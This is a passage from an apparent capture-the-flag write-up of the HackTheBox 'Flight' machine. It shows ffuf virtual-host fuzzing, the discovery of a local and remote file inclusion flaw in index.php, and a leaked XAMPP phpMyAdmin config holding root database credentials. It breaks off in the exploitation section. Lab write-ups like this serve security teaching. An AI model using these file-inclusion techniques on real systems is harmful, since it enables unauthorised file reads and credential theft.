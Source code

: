     ![image.png](image%205.png)
    
- **VHOST Fuzzing**
    
    ```bash
    ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://flight.htb/ -H 'Host: FUZZ.flight.htb' -fs 7069
    ```
    
    ![image.png](image%206.png)
    
    I added it to `/etc/hosts` file.
    
    Navigating there we see Aviation School page, and I saw that website loads pages from index.php that might be vulnerable to file inclusion.
    
    ![image.png](image%207.png)
    
    I can see that it is vulnerable to LFI inclusion:
    
    ![image.png](image%208.png)
    
    Let’s quickly test for RFI:
    
    I can see it is vulnerable but app does not execute PHP scripts:
    
    ![image.png](image%209.png)
    

## Exploitation

I tried including `xampp` config files;

```php
<?php
/*
 * This is needed for cookie based authentication to encrypt password in cookie
 */
$cfg['blowfish_secret'] = 'xampp'; /* YOU SHOULD CHANGE THIS FOR A MORE SECURE COOKIE AUTH! */

/*
 * Servers configuration
 */
$i = 0;

/*
 * First server
 */
$i++;

/* Authentication type and info */
$cfg['Servers'][$i]['auth_type'] = 'config';
$cfg['Servers'][$i]['user'] = 'root';
$cfg['Servers'][$i]['password'] = '';
$cfg['Servers'][$i]['extension'] = 'mysqli';
$cfg['Servers'][$i]['AllowNoPassword'] = true;
$cfg['Lang'] = '';

/* Bind to the localhost ipv4 address and tcp */
$cfg['Servers'][$i]['host'] = '127.0.0.1';
$cfg['Servers'][$i]['connect_type'] = 'tcp';

/* User for advanced features */
$cfg['Servers'][$i]['controluser'] = 'pma';
$cfg['Servers'][$i]['controlpass'] = '';

```